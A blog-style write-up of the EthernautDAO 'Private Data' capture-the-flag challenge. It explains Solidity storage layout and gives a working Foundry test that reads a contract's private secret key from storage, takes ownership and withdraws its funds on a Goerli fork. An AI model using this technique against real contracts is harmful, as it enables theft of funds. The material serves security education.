```yaml
---
title: 'EthernautDAO CTF 1 — Private Data Solution'
excerpt: ΞthernautDAO is common goods DAO aimed at transforming developers into Ethereum developers. </br></br>Our goal for this challenge is to be able to take the ownership of the contract by calling the function `takeOwnership`  and then withdraw all the contract's funds by calling the `withdraw` function that can be called only by the owner of the contract.
coverImage:
  url: '/assets/blog/ethernautdao.jpeg'
  credit:
    name: ΞthernautDAO
    url: https://twitter.com/EthernautDAO
date: '2022-07-11T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethernautdao.jpeg'
---
```


[ΞthernautDAO](https://twitter.com/EthernautDAO) is common goods DAO aimed at transforming developers into Ethereum developers.

They started releasing CTF challenges on Twitter, so how couldn't I start solving them?

[https://twitter.com/EthernautDAO/status/1543957806532833282](https://twitter.com/EthernautDAO/status/1543957806532833282)

## CTF 1: Private Data

The contract [0x620e0c88e0f8f36bcc06736138bded99b6401192](https://goerli.etherscan.io/address/0x620e0c88e0f8f36bcc06736138bded99b6401192) has been deployed on the Goerli network.

> Anyone can deposit ether, but only the owner can withdraw
> During contract creation a secret key is set, which allows o transfer ownership of the contract

Our goal for this challenge is to be able to take the ownership of the contract by calling the function `takeOwnership` and then withdraw all the contract's funds by calling the `withdraw` function that can be called only by the owner of the contract.

## Study the contracts

Let's start by reading the `constructor` code

```solidity
constructor(string memory rndString) {
    owner = msg.sender;

    // create a random number and store it in a private variable
    secretKey = uint256(
        keccak256(
            abi.encodePacked(
                blockhash(block.number - 1),
                block.timestamp,
                rndString
            )
        )
    );
}
```

Inside the `constructor` the deployer set up the `owner` equal to `msg.sender` and then initialize a `secretKey`.

To become the new owner of the contract and be able to call `takeOwnership` we must be able to reconstruct this secret key.

The first thing that you must remember when you use or develop on the blockchain is that **nothing** is private in the blockchain. Everything can be seen even if you declare a variable as `private` or `internal`. I suggest you to read more about this concept by reading [“SWC-136: Unencrypted Private Data On-Chain”](https://swcregistry.io/docs/SWC-136).

I'm saying this because the owner of the contract would think that there is no way that I would be able to read directly a `private` state variable. But in reality, we have two different way to do that:

1. you could re-construct the key by reviewing the deployment data on Etherscan or Tenderly
2. you could just fork the Goerli network in a block after the deployment and use [Foundry's Cheatcode](https://book.getfoundry.sh/forge/cheatcodes.html) to read the slot where that value is stored

We will go with the second options just because I think that it's more fun :D

First, we need to understand how the [Layout of State variables in Storage](https://docs.soliditylang.org/en/v0.8.15/internals/layout_in_storage.html#layout-of-state-variables-in-storage) work.

- Each storage slot will use 32 bytes (word size)
- For each variable, a size in bytes is determined according to its type
- Multiple, contiguous items that need less than 32 bytes are packed into a single storage slot if possible according to the following rules:
  - The first item in a storage slot is stored lower-order aligned.
  - Value types use only as many bytes as are necessary to store them.
  - If a value type does not fit the remaining part of a storage slot, it is stored in the next storage slot.
  - Structs and array data always start a new slot and their items are packed tightly according to these rules.
  - Items following struct or array data always start a new storage slot.

Let's now look at the Contract variables layout:

```solidity
    uint256 public constant NUM = 1337;
    address public owner;
    bytes32[5] private randomData;
    mapping(address => uint256) public addressToKeys;
    uint128 private a;
    uint128 private b;
    uint256 private secretKey;
```

First thing to note is that `constant` and `immutable` variables will not take a storage slot because they will be directly replaced in the code at compile time or during deployment time (immutable). See more on the ["Constant and Immutable State Variables"](https://docs.soliditylang.org/en/v0.8.15/contracts.html?highlight=constant#constant-and-immutable-state-variables) documentation page.

So let's make some math, given each variable type we can know which slot they will use:

- `owner` will be at **slot0**
- `randomData` will take slot **from slot1 to slot5** because it is a static array of five elements
- `addressToKeys` will take **slot6**. For mapping and dynamic arrays, it's the layout is a little more complicated, but it's not relevant for this challenge. I anyway suggestion to read more on ["Mappings and Dynamic Arrays"](https://docs.soliditylang.org/en/v0.8.15/internals/layout_in_storage.html#mappings-and-dynamic-arrays) documentation page.
- `a` and `b` variable will use the same **slot7** because they take in total 32 bytes
- This mean that our `secretKey` variable will take **slot8**!

Why is so important to know which slot is used by our variable?

Because by forking the chain and by using Foundry Cheatcode we can directly read a Contract's slot value in a specific block in time even if the variable is private!

## Solution code

Now what we need to do is:

- Create an Alchemy or Infura account to be able to fork the Goerli blockchain
- Choose a good block from which we can create a fork. Any block after the creation of the contract will be good
- Run a foundry test that will use the fork, read the slot, print it out and boom! We know which is the `secretKey`

Here's the code that I used for the test:

```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.13;

import "./utils/BaseTest.sol";
import "src/PrivateData.sol";

contract PrivateDataTest is BaseTest {
    PrivateData private privateData;

    constructor() {
        string[] memory userLabels = new string[](2);
        userLabels[0] = "Alice";
        userLabels[1] = "Bob";
        preSetUp(2, 100 ether, userLabels);
    }

    function setUp() public override {
        // Call the BaseTest setUp() function that will also create testsing accounts
        super.setUp();

        // Attach the contract to the addresses on the fork
        privateData = PrivateData(payable(0x620E0c88E0f8F36bCC06736138bDEd99B6401192));

        vm.label(address(privateData), "PrivateData");
    }

    function testTakeOwnership() public {
        address player = users[0];
        vm.startPrank(player);

        // assert we are not the owners
        address owner = privateData.owner();
        assertEq(owner == player, false);

        // load the secret key slot from slot 9
        bytes32 secretKeyBytes = vm.load(address(privateData), bytes32(uint256(8)));
        uint256 secretKey = uint256(secretKeyBytes);

        console.log("secretKey", secretKey);

        // take the ownership of the contract
        privateData.takeOwnership(secretKey);

        // assert we are the onwer
        assertEq(privateData.owner(), player);

        // withdraw all the funds, if we are the owner it shoud not revert
        privateData.withdraw();

        vm.stopPrank();
    }
}
```

Here is the command I have used to run the test: `forge test --match-contract PrivateDataTest --fork-url <your_rpc_url> --fork-block-number 7178864 -vv`

Just remember to replace `<your_rpc_url>` with the RPC URL you got from Alchermy or Infura.

Now we can go directly on Etherscan and call `takeOwnership` passing the `secretKey` we just printed in the console.

You can read the full solution of the challenge, opening [PrivateData.t.sol](https://github.com/StErMi/ethernautdao-ctf/blob/main/test/PrivateData.t.sol)

## Further reading

- [SWC-136: Unencrypted Private Data On-Chain](https://swcregistry.io/docs/SWC-136)
- [Foundry's Cheatcode](https://book.getfoundry.sh/forge/cheatcodes.html)
- [Layout of State variables in Storage](https://docs.soliditylang.org/en/v0.8.15/internals/layout_in_storage.html#layout-of-state-variables-in-storage)
- [Constant and Immutable State Variables](https://docs.soliditylang.org/en/v0.8.15/contracts.html?highlight=constant#constant-and-immutable-state-variables)
- ["Mappings and Dynamic Arrays"](https://docs.soliditylang.org/en/v0.8.15/internals/layout_in_storage.html#mappings-and-dynamic-arrays)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
